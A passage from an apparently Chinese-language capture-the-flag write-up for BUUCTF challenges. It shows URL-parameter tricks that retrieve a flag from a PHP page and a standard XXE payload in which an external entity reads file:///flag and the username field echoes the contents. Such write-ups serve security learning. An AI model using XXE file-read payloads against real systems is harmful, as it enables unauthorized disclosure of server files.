 ```php
    exit($is);
}

echo "the flag is: ".$flag;
```

??? 有点乱, 随便传了个参就得到 flag 了

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?yds=flag
```

![](assets/202208252104793-170074459625559.png)

另一种方法

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?is=flag&flag=flag
```

## [NCTF2019]Fake XML cookbook（XXE）

常规 xxe

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///flag">]>
<user>
    <username>
        &file;
    </username>
    <password>
        123
    </password>
</user>
```

其中 username 是回显位
